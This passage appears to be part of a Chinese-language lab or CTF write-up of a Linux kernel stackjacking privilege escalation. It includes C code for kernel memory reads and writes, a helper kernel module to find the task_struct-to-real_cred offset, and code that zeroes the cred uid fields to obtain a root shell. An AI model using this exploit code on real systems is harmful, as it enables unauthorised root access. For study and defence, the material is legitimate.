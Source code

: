 ```c
    {
        perror("ioctl");
        exit(EXIT_FAILURE);
    }

    close(fd);
```
然后是最蛋疼的步骤，找real_cred的地址。刚开始用搜索的方法read总是阻塞，不知道是什么原因，耽搁了好长时间。后来没有办法了，只能算出task_struct和real_cred的偏移了。因为我们很容易得到task_struct的地址，然后只需要加上(减去)偏移就可得到real_cred的地址了。只需要写个小小的LKM就可以了。
```c
static int __init lezzdoit ( void )
{
    printk(KERN_INFO "The current process's creds: %lx %lx %lx\n", current, &current->real_cred, &current->cred);
    return 0;
}

static void __exit wereouttahurr ( void )
{
    printk(KERN_INFO "remove\n");
}

module_init(lezzdoit);
module_exit(wereouttahurr);

MODULE_LICENSE("GPL");
```
dmesg查看下输出：
```
[   67.735123] The cuurent process the cred: ffff88002d3c47d0 ffff88002d3c4c68 ffff88002d3c4c70
```
算出task_struct与real_cred偏移：0xffff88002d3c4c68 - 0xffff88002d3c47d0。然后可以验证一下找到的地址是否正确：
```c
    unsigned long offset = 0xffff88007a74b478 - 0xffff88007a74afe0;
    real_cred = task_struct + offset;
    printf("[+] task_struct->real_cred's address: %p\n", real_cred);
    cred = real_cred + sizeof(void *);
    printf("[+] task_struct->cred's address): %p\n", cred );
    //now real_cred is pointing to the cred struct
    kmemcpy(&real_cred, real_cred, sizeof(void *));
    kmemcpy(&uid, real_cred + sizeof(unsigned int), sizeof(unsigned int));
    if( getuid() == uid )
    {
        puts("fucking the world! finally got it!\n");
    }
```
最后把real_cred和cred结构体里面的id字段改为0即可。
```c
    puts("[*] Starting overwriting real_cred and cred....");
    unsigned int zeroarray[8];
    memset(zeroarray, 0, 32);
    kmemcpy(real_cred + 4, zeroarray, sizeof(zeroarray));

    kmemcpy(&uid, real_cred + sizeof(unsigned int), sizeof(unsigned int));
    printf("[+] task_struct->real_cred->uid: %d\n", uid);

    puts("[*] overwriting task_struct->cred to the same address as real_cred");
    kmemcpy(cred, &real_cred, sizeof(void *));

    kmemcpy(&cred, cred, sizeof(void *));
```
执行exp后我们拿到了可爱的root shell:
```c
w0lfzhang@w0lfzhang-666:~/Desktop/Brad-Oberberg$ gcc -o exp stackjacking.c
w0lfzhang@w0lfzhang-666:~/Desktop/Brad-Oberberg$ ./exp
```